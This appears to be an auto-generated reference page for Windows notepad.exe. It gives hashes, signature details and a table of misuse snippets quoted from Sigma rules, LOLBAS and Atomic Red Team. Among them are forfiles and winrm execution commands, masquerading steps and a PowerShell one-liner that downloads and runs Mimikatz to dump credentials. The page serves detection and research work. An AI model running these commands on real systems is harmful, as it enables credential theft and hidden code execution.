

---
title: notepad.exe | Notepad
excerpt: What is notepad.exe?
---

# notepad.exe 

* File Path: `C:\WINDOWS\system32\notepad.exe`
* Description: Notepad

## Screenshot

## Hashes

Type | Hash
-- | --
MD5 | `06E6C0482562459ADB462CA9008262F8`
SHA1 | `C401CD335BA6A3BDAF8799FDC09CDC0721F06015`
SHA256 | `E5D90BEEB6F13F4613C3153DABBD1466F4A062B7252D931F37210907A7F914F7`
SHA384 | `F058C95D3E78D8624939745CC5562E77619ACCBF10C1641EED89E3618108744D5F77A5B692BB8BA4115961495B41BDFC`
SHA512 | `6D94A72C2BF0DB2DBB3994184B03D136117D3EA65E4D0A81AA5BD6A5DD904AD0E5B5CDC44F91B2A7FF3AE81A8F14D3F6D7E62BB82B68D5C000E9F4AC7CCE6020`
SSDEEP | `3072:4GPGNDPjlam62b+jJQQUQhLBiW+3mCzSJSrVrvkwuS4GvRep:5GN70v2b+jJTh4WsmCz8SVrfvp`

## Signature

* Status: Signature verified.
* Serial: `330000023241FB59996DCC4DFF000000000232`
* Thumbprint: `FF82BC38E1DA5E596DF374C53E3617F7EDA36B06`
* Issuer: CN=Microsoft Windows Production PCA 2011, O=Microsoft Corporation, L=Redmond, S=Washington, C=US
* Subject: CN=Microsoft Windows, O=Microsoft Corporation, L=Redmond, S=Washington, C=US

## File Metadata

* Original Filename: NOTEPAD.EXE.MUI
* Product Name: Microsoft Windows Operating System
* Company Name: Microsoft Corporation
* File Version: 10.0.18362.1 (WinBuild.160101.0800)
* Product Version: 10.0.18362.1
* Language: English (United States)
* Legal Copyright:  Microsoft Corporation. All rights reserved.

## Possible Misuse

*The following table contains possible examples of `notepad.exe` being misused. While `notepad.exe` is **not** inherently malicious, its legitimate functionality can by abused for malicious purposes.*

Source | Source File | Example | License
-- | -- | -- | --
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_susp_image_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_susp_image_load.yml) | `- '*\notepad.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_notepad_network_connection.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/network_connection/sysmon_notepad_network_connection.yml) | `title: Notepad Making Network Connection` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_notepad_network_connection.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/network_connection/sysmon_notepad_network_connection.yml) | `description: Detects suspicious network connection by Notepad` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_notepad_network_connection.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/network_connection/sysmon_notepad_network_connection.yml) | `- https://blog.cobaltstrike.com/2013/08/08/why-is-notepad-exe-connecting-to-the-internet/` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_notepad_network_connection.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/network_connection/sysmon_notepad_network_connection.yml) | `Image: '*\notepad.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_gup.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_gup.yml) | `description: Detects execution of the Notepad++ updater in a suspicious directory, which is often used in DLL side-loading attacks` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_gup.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_gup.yml) | `- 'C:\Users\\*\AppData\Local\Notepad++\updater\gup.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_gup.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_gup.yml) | `- 'C:\Users\\*\AppData\Roaming\Notepad++\updater\gup.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_gup.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_gup.yml) | `- 'C:\Program Files\Notepad++\updater\gup.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_gup.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_gup.yml) | `- 'C:\Program Files (x86)\Notepad++\updater\gup.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_gup.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_gup.yml) | `- Execution of tools named GUP.exe and located in folders different than Notepad++\updater` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Gpup.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/LOLUtilz/OtherBinaries/Gpup.yml) | `Description: Execute another command through gpup.exe (Notepad++ binary).` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Gpup.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/LOLUtilz/OtherBinaries/Gpup.yml) | `- 'C:\Program Files (x86)\Notepad++\updater\gpup.exe    '` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Explorer.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Explorer.yml) | `- Command: explorer.exe C:\Windows\System32\notepad.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Forfiles.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Forfiles.yml) | `- Command: forfiles /p c:\windows\system32 /m notepad.exe /c calc.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Forfiles.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Forfiles.yml) | `Description: Executes calc.exe since there is a match for notepad.exe in the c:\windows\System32 folder.` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Forfiles.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Forfiles.yml) | `- Command: forfiles /p c:\windows\system32 /m notepad.exe /c "c:\folder\normal.dll:evil.exe"` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Forfiles.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Forfiles.yml) | `Description: Executes the evil.exe Alternate Data Stream (AD) since there is a match for notepad.exe in the c:\windows\system32 folder.` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [pester.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSScripts/pester.yml) | `- Command:  Pester.bat [/help\|?\|-?\|/?] "$null; notepad"` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [pester.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSScripts/pester.yml) | `Description: Execute code using Pester. The third parameter can be anything. The fourth is the payload. Example here executes notepad` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Winrm.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSScripts/Winrm.yml) | `- Command: 'winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad.exe"} -r:http://target:5985'` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Winrm.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSScripts/Winrm.yml) | `- Command: 'winrm invoke Create wmicimv2/Win32_Service @{Name="Evil";DisplayName="Evil";PathName="cmd.exe /k c:\windows\system32\notepad.exe"} -r:http://acmedc:5985   \nwinrm invoke StartService wmicimv2/Win32_Service?Name=Evil -r:http://acmedc:5985'` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Cdb.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Cdb.yml) | `- Command: cdb.exe -cf x64_calc.wds -o notepad.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Dxcap.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Dxcap.yml) | `- Command: Dxcap.exe -c C:\Windows\System32\notepad.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Dxcap.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Dxcap.yml) | `Description: Launch notepad as a subprocess of Dxcap.exe` | 
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/index.md) | - Atomic Test #1: DLL Side-Loading using the Notepad++ GUP.exe binary [windows] | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/index.md) | - Atomic Test #3: Masquerading - cscript.exe running as notepad.exe [windows] | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [windows-index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/windows-index.md) | - Atomic Test #1: DLL Side-Loading using the Notepad++ GUP.exe binary [windows] | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [windows-index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/windows-index.md) | - Atomic Test #3: Masquerading - cscript.exe running as notepad.exe [windows] | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1036.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1036.003/T1036.003.md) | - [Atomic Test #3 - Masquerading - cscript.exe running as notepad.exe](#atomic-test-3---masquerading---cscriptexe-running-as-notepadexe) | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1036.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1036.003/T1036.003.md) | ## Atomic Test #3 - Masquerading - cscript.exe running as notepad.exe | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1036.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1036.003/T1036.003.md) | Copies cscript.exe, renames it, and launches it to masquerade as an instance of notepad.exe. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1036.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1036.003/T1036.003.md) | Upon successful execution, cscript.exe is renamed as notepad.exe and executed from non-standard path. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1036.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1036.003/T1036.003.md) | copy %SystemRoot%\System32\cscript.exe %APPDATA%\notepad.exe /Y | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1036.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1036.003/T1036.003.md) | cmd.exe /c %APPDATA%\notepad.exe /B | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1036.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1036.003/T1036.003.md) | del /Q /F %APPDATA%\notepad.exe >nul 2>&1 | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1047.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1047/T1047.md) | When the test completes , a new process will be started locally .A notepad application will be started when input is left on default. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1047.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1047/T1047.md) | \| process_to_execute \| Name or path of process to execute. \| String \| notepad.exe\| | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1048.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1048.003/T1048.003.md) | Upon successful execution, powershell will utilize ping (icmp) to exfiltrate notepad.exe to a remote address (default 127.0.0.1). Results will be via stdout. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1048.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1048.003/T1048.003.md) | \| input_file \| Path to file to be exfiltrated. \| Path \| C:&#92;Windows&#92;System32&#92;notepad.exe\| | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1055.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1055/T1055.md) | With default arguments, expect to see a MessageBox, with notepad's icon in taskbar. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1055.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1055/T1055.md) | \| process_id \| PID of input_arguments \| Integer \| (Start-Process notepad -PassThru).id\| | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1059.001.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1059.001/T1059.001.md) | Run mimikatz via PsSendKeys. Upon execution, automated actions will take place to open file explorer, open notepad and input code, then mimikatz dump info will be displayed. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1059.001.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1059.001/T1059.001.md) | $url='https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1';$wshell=New-Object -ComObject WScript.Shell;$reg='HKCU:\Software\Microsoft\Notepad';$app='Notepad';$props=(Get-ItemProperty $reg);[Void][System.Reflection.Assembly]::LoadWithPartialName('System.Windows.Forms');@(@('iWindowPosY',([String]([System.Windows.Forms.Screen]::AllScreens)).Split('}')[0].Split('=')[5]),@('StatusBar',0))\|ForEach{SP $reg (Item Variable:_).Value[0] (Variable _).Value[1]};$curpid=$wshell.Exec($app).ProcessID;While(!($title=GPS\|?{(Item Variable:_).Value.id-ieq$curpid}\|ForEach{(Variable _).Value.MainWindowTitle})){Start-Sleep -Milliseconds 500};While(!$wshell.AppActivate($title)){Start-Sleep -Milliseconds 500};$wshell.SendKeys('^o');Start-Sleep -Milliseconds 500;@($url,(' '*1000),'~')\|ForEach{$wshell.SendKeys((Variable _).Value)};$res=$Null;While($res.Length -lt 2){[Windows.Forms.Clipboard]::Clear();@('^a','^c')\|ForEach{$wshell.SendKeys((Item Variable:_).Value)};Start-Sleep -Milliseconds 500;$res=([Windows.Forms.Clipboard]::GetText())};[Windows.Forms.Clipboard]::Clear();@('%f','x')\|ForEach{$wshell.SendKeys((Variable _).Value)};If(GPS\|?{(Item Variable:_).Value.id-ieq$curpid}){@('{TAB}','~')\|ForEach{$wshell.SendKeys((Item Variable:_).Value)} };@('iWindowPosDY','iWindowPosDX','iWindowPosY','iWindowPosX','StatusBar')\|ForEach{SP $reg (Item Variable:_).Value $props.((Variable _).Value)};IEX($res);invoke-mimikatz -dumpcr | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1197.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1197/T1197.md) | This has the interesting side effect of causing the executable (e.g. notepad) to run with an Initiating Process of "svchost.exe" and an Initiating Process Command Line of "svchost.exe -k netsvcs -p -s BITS" | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1197.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1197/T1197.md) | \| command_path \| Path of command to execute \| path \| C:&#92;Windows&#92;system32&#92;notepad.exe\| | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1202.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1202/T1202.md) | "This is basically saying for each occurrence of notepad.exe in c:\windows\system32 run calc.exe" | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1202.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1202/T1202.md) | forfiles /p c:\windows\system32 /m notepad.exe /c #{process} | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1202.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1202/T1202.md) | forfiles /p c:\windows\system32 /m notepad.exe /c "c:\folder\normal.dll:evil.exe" | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.004.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.004/T1218.004.md) | Copy-Item -Path "$([System.Runtime.InteropServices.RuntimeEnvironment]::GetRuntimeDirectory())InstallUtil.exe" -Destination "$Env:windir\System32\Tasks\notepad.exe" | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.004.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.004/T1218.004.md) | InstallUtilPath = "$Env:windir\System32\Tasks\notepad.exe" | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.004.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.004/T1218.004.md) | Remove-Item -Path "$Env:windir\System32\Tasks\notepad.exe" -ErrorAction Ignore | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.007.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.007/T1218.007.md) | Execute arbitrary MSI file. Commonly seen in application installation. The MSI opens notepad.exe when sucessfully executed. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.007.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.007/T1218.007.md) | Execute arbitrary MSI file retrieved remotely. Less commonly seen in application installation, commonly seen in malware execution. The MSI opens notepad.exe when sucessfully executed. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.011.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.011/T1218.011.md) | Test execution of a remote script using rundll32.exe. Upon execution notepad.exe will be opened. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1546.001.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1546.001/T1546.001.md) | Change Default File Association From cmd.exe of hta to notepad. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1546.001.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1546.001/T1546.001.md) | Upon successful execution, cmd.exe will change the file association of .hta to notepad.exe. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1546.001.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1546.001/T1546.001.md) | \| target_extension_handler \| txtfile maps to notepad.exe \| Path \| txtfile\| | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1546.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1546.003/T1546.003.md) | After it has been online for 4 minutes you should see notepad.exe running as SYSTEM. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1546.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1546.003/T1546.003.md) | CommandLineTemplate="$($Env:SystemRoot)\System32\notepad.exe";} | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1546.010.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1546.010/T1546.010.md) | AppInit Dlls are loading is to start the notepad application. Be sure to run the cleanup commands afterwards so you don't keep getting message boxes showing up | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1546.012.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1546.012/T1546.012.md) | <blockquote>Adversaries may establish persistence and/or elevate privileges by executing malicious content triggered by Image File Execution Options (IEFO) debuggers. IEFOs enable a developer to attach a debugger to an application. When a process is created, a debugger present in an application’s IFEO will be prepended to the application’s name, effectively launching the new process under the debugger (e.g., <code>C:\dbg\ntsd.exe -g  notepad.exe</code>). (Citation: Microsoft Dev Blog IFEO Mar 2010) | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1546.012.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1546.012/T1546.012.md) | \| target_binary \| Binary To Attach To \| Path \| C:&#92;Windows&#92;System32&#92;notepad.exe\| | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1548.002.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1548.002/T1548.002.md) | Upon successful execution, sdclt.exe will spawn cmd.exe to spawn notepad.exe | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1548.002.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1548.002/T1548.002.md) | \| command.to.execute \| Command to execute \| string \| cmd.exe /c notepad.exe\| | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1564.004.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1564.004/T1564.004.md) | folder to view that the alternate data stream exists. To view the data in the alternate data stream, run "notepad T1564.004_has_ads.txt:adstest.txt" | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1564.004.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1564.004/T1564.004.md) | in the %temp% direcotry to view all files with hidden data streams. To view the data in the alternate data stream, run "notepad.exe T1564.004_has_ads_powershell.txt:adstest.txt" in the %temp% folder. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1574.002.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1574.002/T1574.002.md) | - [Atomic Test #1 - DLL Side-Loading using the Notepad++ GUP.exe binary](#atomic-test-1---dll-side-loading-using-the-notepad-gupexe-binary) | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1574.002.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1574.002/T1574.002.md) | ## Atomic Test #1 - DLL Side-Loading using the Notepad++ GUP.exe binary | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1574.002.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1574.002/T1574.002.md) | GUP is an open source signed binary used by Notepad++ for software updates, and is vulnerable to DLL Side-Loading, thus enabling the libcurl dll to be loaded. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1574.002.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1574.002/T1574.002.md) | \| gup_executable \| GUP is an open source signed binary used by Notepad++ for software updates \| path \| PathToAtomicsFolder&#92;T1574.002&#92;bin&#92;GUP.exe\| | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1574.012.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1574.012/T1574.012.md) | Additionally, the profiling DLL will inherit the integrity level of Event Viewer bypassing UAC and executing `notepad.exe` with high integrity. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
